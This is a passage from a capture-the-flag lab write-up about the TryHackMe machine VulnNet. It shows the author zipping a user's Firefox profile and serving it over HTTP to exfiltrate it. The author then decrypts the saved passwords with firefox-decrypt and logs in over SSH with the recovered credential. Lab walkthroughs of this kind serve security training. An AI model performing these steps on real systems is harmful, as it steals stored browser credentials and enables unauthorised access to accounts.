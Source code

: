 ```sh
$ cd extensions	
$ ls
$ ls -hla
total 8.0K
drwxr-xr-x 2 system system 4.0K Jun 14  2022 .
drwxr-xr-x 4 system system 4.0K Jun 14  2022 ..
$ cd ..
$ cd firefox
```
- We can extract the passwords of the user system’s profile in mozilla.  
To do this, we are going to copy the file to our local machine and use a tool to extract the credentials. In order to do that we need to compress the entire `.mozilla` directory recursively and make a copy in the `tmp` directory.
```sh
$ zip /tmp/sys-moz.zip .mozilla -r
$ ls
linpeas.sh
sys-moz.zip
```
- Transfer the directory back to our machine
```sh
$ python3 -m http.server 8001
```
- Unzip the downloaded directory
```sh
⚡unzip sys-moz.zip 
Archive:  sys-moz.zip
   creating: .mozilla/
   creating: .mozilla/extensions/
   creating: .mozilla/firefox/
   creating: .mozilla/firefox/2o9vd4oi.default/
...
  inflating: .mozilla/firefox/2fjnrwth.default-release/features/{7f91ed06-a1ff-4eba-8bac-603e2d8dcecf}/webcompat@mozilla.org.xpi  
  inflating: .mozilla/firefox/2fjnrwth.default-release/SiteSecurityServiceState.txt  
  inflating: .mozilla/firefox/profiles.ini  
```
- Using `firefox-decrypt` decrypt the unzipped directory
```sh
⚡ firefox-decrypt firefox/
Select the Mozilla profile you wish to decrypt
1 -> 2fjnrwth.default-release
2 -> 8mk7ix79.default-release
1
Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '<REDACTED>'
```
- from the obtained password, let's login as system through `ssh` on the target machine
```sh 
⚡ ssh system@vulnnet.thm
system@vulnnet.thm's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.

Your Hardware Enablement Stack (HWE) is supported until April 2023.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```